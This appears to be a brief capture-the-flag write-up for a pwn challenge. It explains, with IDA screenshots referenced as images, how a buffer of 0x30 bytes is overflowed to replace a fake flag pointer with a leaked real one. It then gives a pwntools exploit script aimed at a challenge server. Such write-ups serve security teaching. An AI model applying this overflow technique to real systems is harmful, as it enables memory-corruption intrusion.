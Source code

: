 Use IDA to see source code:
![alt text](image-2.png)

You can see the fake flag address and the real flag address:
![alt text](image-1.png)

Now look at the write function (at line 20)
this function will write 69 byte data from fake flag address to console screen so our task is to overwrite the real flag address
into the address containing the fake address

![alt text](image-3.png)
offset: 0x30

## script:
'''
from pwn import *

exe = ELF('./chall', checksec = False)
p = remote("host8.dreamhack.games", 14165)

p.recvuntil(b'(mmapped address): ')
flag_addr = int(p.recvline()[:-1], 16)
log.info("real flag addr: " + hex(flag_addr))

input()
payload = b'a'*0x30
payload += p64(flag_addr)

p.sendlineafter(b'input: ', payload)

p.interactive()
'''


## flag:
![alt text](image.png)